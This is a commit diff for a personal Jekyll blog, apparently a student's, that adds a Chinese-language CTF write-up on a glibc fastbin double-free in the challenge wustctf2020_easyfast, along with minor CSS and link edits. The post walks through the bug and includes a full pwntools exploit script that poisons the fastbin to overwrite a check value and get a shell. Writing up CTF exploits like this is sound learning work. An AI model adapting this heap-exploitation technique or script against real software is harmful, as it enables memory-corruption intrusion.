

Before and after one commit to NTC627/ntc627.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 1869 px of the page at 79% size, without its empty margins (128-1151 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
new note

````diff
--- a/_posts/2026-06-05-hello-world.md
+++ b/_posts/2021-06-27-hello-world.md
@@ -1,7 +1,7 @@
 ---
 layout: post
 title: "Hello World"
-date: 2026-06-05
+date: 2021-06-27
 ---
 
 Test my blog
--- /dev/null
+++ b/_posts/2026-3-20-FastbinAttack-Double-free-note.md
@@ -0,0 +1,122 @@
+---
+layout: post
+title: "[PWN]FastbinAttack之Double free学习"
+date: 2026-03-20
+---
+# FastbinAttack-Double free
+## 分析
+
+先来逆向看看，可以看到有个后门函数，触发方式是qword_602090等于0，而这个值默认是1。
+![ref1](/assets/images/2026-3-20-FastbinAttack-Double-free-note/ref1.png)
+
+还有一个函数，可以分配用户输入的指定大小的堆
+
+![ref2](/assets/images/2026-3-20-FastbinAttack-Double-free-note/ref2.png)
+
+漏洞出在下面的函数，这个函数本意是free掉刚刚分配的堆，但它却没有做任何限制，不检查指针，也不检查传入的堆内容，用户可以无条件的调用free，所以存在double free漏洞。
+
+![ref3](/assets/images/2026-3-20-FastbinAttack-Double-free-note/ref3.png)
+
+同时，modify函数可以更改内存内容，不管free与否，所以也存在uaf
+
+![ref6](/assets/images/2026-3-20-FastbinAttack-Double-free-note/ref6.png)
+
+## 原理
+
+首先来看看一段代码
+```c
+int main(void) {
+void *chunk1,*chunk2,*chunk3;
+ chunk1=malloc(0x10);
+ chunk2=malloc(0x10);
+
+ free(chunk1);
+ free(chunk1);
+ return 0; }
+```
+
+这个如果编译运行的话会报错，glibc会发现chunk1已经在bin中，无法再free。
+
+```c
+if (__builtin_expect (old == p, 0))
+    malloc_printerr ("double free or corruption (fasttop)");
+
+```
+
+但有一种情况，是可以重复free掉chunk1的。
+
+```c
+int main(void) {
+ void *chunk1,*chunk2,*chunk3;
+ chunk1=malloc(0x10);
+ chunk2=malloc(0x10);
+ free(chunk1);
+ free(chunk2);
+ free(chunk1);
+ return 0; }
+```
+
+在释放完chunk2后，main_arena指向了chunk2，所以old != p了，那么就可以再free一次chunk1了，如下图，很好的展示了chunk是怎么链接的。
+
+![ref4](/assets/images/2026-3-20-FastbinAttack-Double-free-note/ref4.png)
+
+## Exploit
+
+double_free的方法来做是这样：
+
+```python
+from pwn import *
+
+binary = './wustctf2020_easyfast'
+context.binary = binary
+context.log_level='debug'
+
+p = remote('node5.buuoj.cn', 25387)
+elf = ELF(binary)
+libc = elf.libc
+
+def Alloc(size):
+	p.recvuntil(b"choice>\n")
+	p.sendline(b"1")
+	p.recvuntil(b"size>\n")
+	p.sendline(str(size))
+
+def Free(index):
+	p.recvuntil(b"choice>\n")
+	p.sendline(b"2")
+	p.recvuntil(b"index>\n")
+	p.sendline(str(index))
+
+def Modify(index,content):
+	p.recvuntil(b"choice>\n")
+	p.sendline(b"3")
+	p.recvuntil(b"index>\n")
+	p.sendline(str(index))
+	p.send(content)
+
+Alloc(0x48)
+Alloc(0X48)
+Free(0)
+Free(1)
+Free(0)
+Modify(0, p64(0x602080))
+Alloc(0X48)
+Alloc(0x48)
+Modify(3,'\x00')
+
+p.recvuntil(b"choice>\n")
+p.sendline(b"4")
+p.interactive()
+```
+
+顺序是先Alloc两个块，然后free掉第一个块，随后第二个块，此时还一切正常，而当再次free掉第一个块的时候，fastbin链表就变成了前面画的图的样子，此时因为modify并不检查写入的块是否还在，因此可以往里面写入。这时候要记一张经典老图
+
+![ref7](/assets/images/2026-3-20-FastbinAttack-Double-free-note/ref7.png)
+
+一个chunk的数据结构，在使用时仅包含prev_size和size，当它释放时，原userdata的一部分空间会用来放fd和bk两个指针，指向其它空闲块，因此我们再次调用modify对一个释放的块写数据，就会覆盖掉原本的fd，在它下一次分配时，会分配当前fd指向的0x602080作为空闲块，而为什么是这个，则是因为：
+
+![ref5](/assets/images/2026-3-20-FastbinAttack-Double-free-note/ref5.png)
+
+题目留了个后门给我们，正常情况下，2.23的glibc分配空闲块还会检查空闲块的size位正确不，而题目刚刚好把数据段的0x602088设为了0x50，刚刚好对应0x602080的size位。
+
+不过modify完以后也只是改了指针，需要继续分配块，把0x602080分配出去，我们才能改里面的内容，注:modify完后，链表结构是这样，main_arena->chunk1->0x602080，而之前是main_arena->chunk1->chunk2->chunk1。最后两次alloc中，第一次alloc的是之前的chunk1（如果没有double free的话，本应该alloc chunk2），第二次则是0x602080，此时往里面写数据就可以覆盖掉shell_check了。不过这题虽然展示了double free的用法，但不是很好，因为modify不检查free，所以可以直接uaf，仅通过这题我也不能完全认识到double free的作用。
--- a/assets/css/style.css
+++ b/assets/css/style.css
@@ -16,7 +16,7 @@
   }
 
   a {
-  color: #cd6132fe;
+  color: #32cd3ffe;
   text-decoration: none;
   }
 
@@ -116,7 +116,7 @@
   }
 
   .read-more {
-  color: #180de8;
+  color: #0de8b1;
   }
 
   .pagination {
--- a/index.html
+++ b/index.html
@@ -18,7 +18,7 @@ title: index
     <div class="panel">
          <h3>Statistics</h3> <p>Posts: {{ site.posts.size }}</p>
     </div>
-    <div class="panel"> <h3>Contact</h3>  <a href="https://space.bilibili.com/108097771?spm_id_from=333.1007.0.0">Visit my bilibili</a> <a href="https://github.com/NTC627">Visit my GitHub</p>
+    <div class="panel"> <h3>Contact</h3>  <p><a href="https://space.bilibili.com/108097771?spm_id_from=333.1007.0.0">Visit my bilibili</a></p> <p><a href="https://github.com/NTC627">Visit my GitHub</p>
     </div>
 </aside>
     <main class="content">
````
Also changed, not shown: assets/images/2026-3-20-FastbinAttack-Double-free-note/ref1.png (added), assets/images/2026-3-20-FastbinAttack-Double-free-note/ref2.png (added), assets/images/2026-3-20-FastbinAttack-Double-free-note/ref3.png (added), assets/images/2026-3-20-FastbinAttack-Double-free-note/ref4.png (added), assets/images/2026-3-20-FastbinAttack-Double-free-note/ref5.png (added), assets/images/2026-3-20-FastbinAttack-Double-free-note/ref6.png (added), assets/images/2026-3-20-FastbinAttack-Double-free-note/ref7.png (added).
